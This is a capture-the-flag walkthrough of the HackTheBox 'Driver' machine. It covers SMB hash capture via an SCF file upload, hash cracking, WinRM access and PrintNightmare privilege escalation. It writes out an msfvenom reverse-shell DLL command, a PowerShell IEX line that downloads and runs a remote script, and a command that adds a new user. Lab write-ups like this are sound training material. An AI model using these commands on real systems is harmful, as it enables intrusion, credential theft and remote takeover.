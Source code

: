 # HackTheBox-Driver

## NMAP 

```bash  
PORT    STATE SERVICE      REASON          VERSION    
80/tcp  open  http         syn-ack ttl 127 Microsoft IIS httpd 10.0
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D                                           
|_  Basic realm=MFP Firmware Update Center. Please enter password for admin
| http-methods:              
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
135/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
445/tcp open  microsoft-ds syn-ack ttl 127 Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
5985/tcp open  http         syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)                                                                 
|_http-server-header: Microsoft-HTTPAPI/2.0                               
|_http-title: Not Found        
Service Info: Host: DRIVER; OS: Windows; CPE: cpe:/o:microsoft:windows

```

## PORT 139/445 (SMB)

<img src="https://i.imgur.com/IBXHYKS.png"/>

Checking smb share through anonymous login it seems we don't have access it to it so let's move on to web server

## PORT 80 (HTTP)

<img src="https://i.imgur.com/0mkBrUB.png"/>

On visiting web server , it's going to ask credentials so let's try `admin;admin` to see if this works

<img src="https://i.imgur.com/NVhljZR.png"/>

And it did it ,so let's see what we have here

<img src="https://i.imgur.com/95fm27D.png"/>

It's running on php , I checked to include index file with `php` extension and this loaded the page so this page is written on php so just some basic enumeration here. There are only two pages here , the other page is about uploading a firmware for the printer

<img src="https://i.imgur.com/GnxJ2Mp.png"/>

I tried uploading something but it doesn't seem that I can access that file from anywhere so I ran `gobuster` and it also didn't found anyhing interesting

<img src="https://i.imgur.com/NuH6pdP.png"/>

Now I kept thinking but nothing was coming to my mind until I focused on these lines " upload the respective firmware update to our file share" , so maybe the file we upload here is going to smb share , so here I learned a new attack which is known as SCF File attack `Shell Command File`.

So we need to create a `.scf` file , it will look like this

<img src="https://i.imgur.com/L2NWqDM.png"/>

Now we will have to upload this file and at the same time run `responder` to catch NTMLv2 hash

```bash
responder -I tun0 -rdw -v 
```

<img src="https://i.imgur.com/HkapBfq.png"/>

Just copy any of the hash , they all are the same, the only different is the time difference (in seconds) and save the hash in a file , and crack  it with `hashcat` 

<img src="https://i.imgur.com/W81nBqI.png"/>

<img src="https://i.imgur.com/bJX5GI2.png"/>

Now to verify if we have valid creds , we can use `crackmapexec` to verify it on smb

<img src="https://i.imgur.com/1pz9Fgr.png"/>

<img src="https://i.imgur.com/UdIj8xJ.png"/>

We only have read access here so we can't get a shell using `smbexec` or `psexec`. Since WinRM is open (port 5985) , we can check if we can get a shell with that

<img src="https://i.imgur.com/MmHkNMh.png"/>

It's showing us the status "pwned" meaning that we can get a shell

<img src="https://i.imgur.com/1SYEpTi.png"/>

## Privilege Escalation (Print Nightmare Python)

Assuming from the web page that there's a print spooler service running , we can test if we can exploit `PrintNightmare` , now this requires some setup as we need to clone the specifc impacket repo 

https://github.com/cube0x0/CVE-2021-1675

After cloning it we would then have to run `python3 ./setup.py install` and copy the contents of `CVE-2021-1675.py` , start the smb server using `service smbd restart` and generate a dll reverse shell

```bash
msfvenom  x64 -p windows/x64/shell_reverse_tcp LHOST=10.10.14.125 LPORT=2222 -f dll -o /var/smb/shell.dll
```

Make sure that you have made read access to other group for this file

<img src="https://i.imgur.com/8EuX6wy.png"/>

<img src="https://i.imgur.com/LbV1F2Y.png"/>

Now to lauch the script and catch the shell

<img src="https://i.imgur.com/h7cqJzw.png"/>

<img src="https://i.imgur.com/OmUARkO.png"/>


## Print Nightmare (Powershell)

We can achieve SYSTEM on this machine through powershell as well , without the need of setting up a smb server 

So we'll use this POC for the pring nightmare exploit

https://github.com/calebstewart/CVE-2021-1675

<img src="https://i.imgur.com/xf9SfW9.png"/>

After transferring it to target machine , let's import the ps1 file. But if we try to import the script , it's going to show us an error "running scripts is disabled on this system"

<img src="https://i.imgur.com/RjZRgk7.png"/>

So to bypass this , we need to download the file using `IEX`

```powershell
IEX (New-Object Net.WebClient).DownloadString('http://10.10.14.120/nightmare.ps1');
```

<img src="https://i.imgur.com/wsaPL90.png"/>

An advantage of downloading it this way is that not only it downloads the file but it will actually import the script so we don't have to import it manually

```powershell
Invoke-Nightmare -NewUser "USER" -NewPassword "PASS"
```

<img src="https://i.imgur.com/aFTw2a1.png"/>

We can see that the user has been created 

<img src="https://i.imgur.com/FGrijZM.png"/>

And we can then just switch to this user by logging in with `evil-winrm` 

<img src="https://i.imgur.com/6QZffHz.png"/>

## References

- https://1337red.wordpress.com/using-a-scf-file-to-gather-hashes/
- https://www.jaacostan.com/2021/07/printnightmare-cve-2021-1675-poc.html
- https://github.com/cube0x0/CVE-2021-1675
- https://github.com/calebstewart/CVE-2021-1675
- https://gist.github.com/jivoi/c354eaaf3019352ce32522f916c03d70

